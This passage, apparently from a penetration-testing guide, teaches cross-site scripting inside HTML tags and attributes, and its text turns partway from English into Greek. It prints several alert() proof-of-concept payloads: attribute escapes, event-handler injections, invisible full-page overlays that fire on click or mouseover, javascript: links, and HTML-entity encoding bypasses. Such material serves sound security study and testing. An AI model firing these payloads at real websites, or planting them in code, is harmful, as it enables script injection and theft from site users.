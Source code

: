 ### Impossible - Dangling Markup

If you just think that **it's impossible to create an HTML tag with an attribute to execute JS code**, you should check [**Danglig Markup** ](../dangling-markup-html-scriptless-injection/)because you could **exploit** the vulnerability **without** executing **JS** code.

## Injecting inside HTML tag

### Inside the tag/escaping from attribute value

If you are in **inside a HTML tag**, the first thing you could try is to **escape** from the tag and use some of the techniques mentioned in the [previous section](./#injecting-inside-raw-html) to execute JS code.\
If you **cannot escape from the tag**, you could create new attributes inside the tag to try to execute JS code, for example using some payload like (_note that in this example double quotes are use to escape from the attribute, you won't need them if your input is reflected directly inside the tag_):
```bash
" autofocus onfocus=alert(document.domain) x="
" onfocus=alert(1) id=x tabindex=0 style=display:block>#x #Access http://site.com/?#x t
```
**Στυλ γεγονότων**
```python
<p style="animation: x;" onanimationstart="alert()">XSS</p>
<p style="animation: x;" onanimationend="alert()">XSS</p>

#ayload that injects an invisible overlay that will trigger a payload if anywhere on the page is clicked:
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.5);z-index: 5000;" onclick="alert(1)"></div>
#moving your mouse anywhere over the page (0-click-ish):
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.0);z-index: 5000;" onmouseover="alert(1)"></div>
```
### Μέσα στο χαρακτηριστικό

Ακόμα και αν **δεν μπορείτε να ξεφύγετε από το χαρακτηριστικό** (`"` κωδικοποιείται ή διαγράφεται), ανάλογα με **ποιο χαρακτηριστικό** αντικατοπτρίζεται η τιμή σας **αν ελέγχετε όλη την τιμή ή μόνο ένα μέρος** θα μπορείτε να το εκμεταλλευτείτε. Για **παράδειγμα**, αν ελέγχετε ένα γεγονός όπως το `onclick=` θα μπορείτε να το κάνετε να εκτελεί αυθαίρετο κώδικα όταν κάνετε κλικ.\
Ένα άλλο ενδιαφέρον **παράδειγμα** είναι το χαρακτηριστικό `href`, όπου μπορείτε να χρησιμοποιήσετε το πρωτόκολλο `javascript:` για να εκτελέσετε αυθαίρετο κώδικα: **`href="javascript:alert(1)"`**

**Παράκαμψη μέσα σε γεγονός χρησιμοποιώντας HTML κωδικοποίηση/URL κωδικοποίηση**

Οι **HTML κωδικοποιημένοι χαρακτήρες** μέσα στην τιμή των χαρακτηριστικών HTML ετικετών **αποκωδικοποιούνται κατά την εκτέλεση**. Επομένως, κάτι σαν το παρακάτω θα είναι έγκυρο (το payload είναι με έντονα γράμματα): `<a id="author" href="http://none" onclick="var tracker='http://foo?`**`&apos;-alert(1)-&apos;`**`';">Go Back </a>`

Σημειώστε ότι **οποιαδήποτε μορφή HTML κωδικοποίησης είναι έγκυρη**:
```javascript
//HTML entities
&apos;-alert(1)-&apos;
//HTML hex without zeros
&#x27-alert(1)-&#x27
//HTML hex with zeros
&#x00027-alert(1)-&#x00027
//HTML dec without zeros
&#39-alert(1)-&#39
//HTML dec with zeros
&#00039-alert(1)-&#00039

<a href="javascript:var a='&apos;-alert(1)-&apos;'">a</a>
<a href="&#106;avascript:alert(2)">a</a>
```